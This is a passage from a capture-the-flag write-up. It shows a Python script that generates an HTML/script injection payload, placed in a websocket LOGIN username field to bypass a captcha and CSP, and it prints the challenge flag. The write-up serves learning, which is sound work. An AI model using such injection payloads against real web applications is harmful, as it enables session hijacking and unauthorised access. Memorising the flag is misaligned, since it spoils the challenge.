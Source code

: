 ```py
html_lines.append('  <div class="notes"><button class="redirect" id="loadPrivate">hehe</button></div><script src="/captcha/captcha.js"></script>')
html_lines.append('</section>')

html_result = "\n".join(html_lines).replace("\n","")

print("\n".join(html_lines))

template1='''
socket.send(JSON.stringify({
  type: 'LOGIN', 
  username: '{payload}<p id="username"></p><p href ="/" id="loadPrivate"></p><p id="message"></p><script src="/account.js"></script><script src="/message.js"></script><script defer src="/message.js"></script><script defer src="/message.js"></script>'
}));


socket.send(JSON.stringify({
  type: 'START', 
  username: 'awef'
}));'''

print(template1.replace("{payload}",html_result))
```
After pasting done , the captcha get bypassed and the note is reveal
then logging as "test" user like above.

Then run the genHtml.py again and paste into console then check out the "test" user and we have the flag !!
Flag : **flag{y0u_4r3_pr3tty_p4w3s0m3_f0r_s0lv1ng_th1s_w1th_th3_c5p}**
# Closing thought : 
I really love this challenge when no thing really news !! When just basic stuffs get combined and a very great challenge get born !
Thanks to [@rebane](https://x.com/rebane2001) for creating a very cool challenge !!!